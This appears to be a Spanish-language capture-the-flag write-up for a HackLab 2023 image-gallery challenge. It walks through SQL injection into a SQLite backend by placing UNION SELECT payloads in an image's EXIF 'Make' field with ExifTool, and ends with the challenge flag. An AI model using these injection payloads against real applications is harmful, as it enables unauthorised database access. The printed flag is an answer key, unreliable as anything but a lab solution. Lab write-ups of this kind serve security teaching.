








# Desafío 20 - Galería de imágenes (HackLab 2023)

**Plataforma:** HackLab (SoftwareSeguro)  
**Edición:** HackLab 2023  
**Categoría:** SQL Injection  

## Análisis

El backend lee el metadato EXIF `Make` de las imágenes subidas y lo inserta en una consulta SQLite sin sanitizar. Se usa **ExifTool** para inyectar SQL en ese campo.

> **Instalación:** descargar ExifTool desde [exiftool.org](https://exiftool.org/). Abrir el CMD y ubicarse en la carpeta de ExifTool.

La lógica base:
```bash
exiftool -Make="' sentencia SQL" nombre.archivo
```

El motor es **SQLite** (no MySQL), lo que genera diferencias de sintaxis.

## Explotación

Proceso de exploración (intentos fallidos que sirvieron para entender la estructura):

```bash
exiftool -Make="') UNION SELECT 1, file, 3 FROM pragma_database_list -- " test.jpg
```

```bash
exiftool -Make="') UNION SELECT name, sql FROM sqlite_master -- " test.jpg
exiftool -Make="') UNION SELECT sql, name FROM sqlite_master -- " test.jpg
exiftool -Make="') UNION SELECT 1, name FROM images -- " test.jpg
exiftool -Make="') UNION SELECT 1, group_concat(name) FROM sqlite_master -- " test.jpg
```









Consultas finales que funcionaron:

```bash
exiftool -Make="' || (SELECT file FROM pragma_database_list)) --" imagen.jpg
```

```bash
exiftool -Make="') UNION SELECT 1, file FROM pragma_database_list -- " test.jpg
```













## Flag

```
3f8ca106a5118b3c418ec00907120d6a
```
